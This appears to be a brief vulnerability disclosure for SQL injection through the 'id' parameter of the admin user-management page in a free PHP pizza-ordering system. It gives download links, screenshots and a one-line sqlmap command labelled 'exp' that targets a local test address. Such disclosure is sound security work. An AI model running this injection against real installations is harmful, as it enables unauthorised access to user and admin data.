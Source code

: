 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/16166/online-pizza-ordering-system-php-free-source-code.html

Vulnerability trigger parameter: $id

The process of vulnerability discovery is as follows：

![image](https://user-images.githubusercontent.com/30823782/220945629-71b6f910-891c-41bb-bea2-619eaa0d392c.png)


exp

```
sqlmap.py -u "http://192.168.31.50/php-opos/admin/manage_user.php?id=1"
```

![image](https://user-images.githubusercontent.com/30823782/220945681-bbd4a27d-6ee4-4d0b-8c01-292df105b0fc.png)
